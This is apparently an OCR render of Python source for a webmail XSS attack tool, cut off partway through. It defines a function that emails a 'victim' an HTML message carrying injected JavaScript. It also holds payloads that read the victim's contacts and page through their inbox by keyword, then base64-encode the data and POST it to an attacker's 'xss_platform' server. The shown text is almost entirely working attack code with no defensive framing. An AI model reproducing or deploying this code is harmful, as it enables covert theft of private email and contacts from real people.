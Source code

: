 ```python

def \_format\_addr(s):
    name, addr = parseaddr(s)
    return formataddr((Header(name, 'utf-8').encode(), addr))

def send\_mail():

    from\_addr = mail\_user
    password = mail\_pass
    smtp\_server = mail\_host
    to\_addr = victim

    msg = MIMEMultipart()
    key\_words = {}
    content = sent\_content + gen\_js()

    msg\['From'\] = \_format\_addr('%s' % from\_addr)   
    msg\['To'\] = \_format\_addr('%s' % to\_addr)      
    msg\['Subject'\] = Header('Read the email!', 'utf-8').encode()  

    msg.attach(MIMEText(content, 'html', 'utf-8'))
    server = smtplib.SMTP(mail\_host, 25)   
    #server.set\_debuglevel(1)
    server.login(from\_addr, password)
    server.sendmail(from\_addr, to\_addr, msg.as\_string())
    server.quit()


contact = '''
                try{
                newURL = currentURL.replace(/BlankMessageBody/,'Contacts');
                xmlhttp1=new XMLHttpRequest();
                url = newURL
                xmlhttp1.open('GET',url,false);
                xmlhttp1.send(null);
                response = xmlhttp1.responseText;
                var to\_send1 = 'a=' + window.btoa(encodeURIComponent(response)) + decodeURIComponent('%26b=') + window.btoa(encodeURIComponent(user));
                xmlhttp4=new XMLHttpRequest();
                server = ' ''' + xss\_platform + ''' '
                xmlhttp4.open('POST',server,false);
                xmlhttp4.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                xmlhttp4.send(to\_send1);}catch(error){}
            '''

receive = '''
                try{    
                if('&View=Main')           
                newURL1 = currentURL.replace(/BlankMessageBody/,'List');
                EURL = currentURL.replace(/BlankMessageBody/,'Message');
                var all\_email = new Array();
                var max\_count = ''' + str(max\_count\_recevie) + ''';
                var key\_words =''' + keywords\_receive + ''';
                var max\_page = 1;
                var page=1;
                for(page;page<max\_page+1;page++){
                xmlhttp2=new XMLHttpRequest();
                url1 = newURL1 + decodeURIComponent('%26ReturnJavaScript=1%26FolderID=0%26Page=') + page
                xmlhttp2.open('GET',url1,false);
                xmlhttp2.send(null);
                response1 = xmlhttp2.responseText;
                data1 =JSON.parse(response1);
```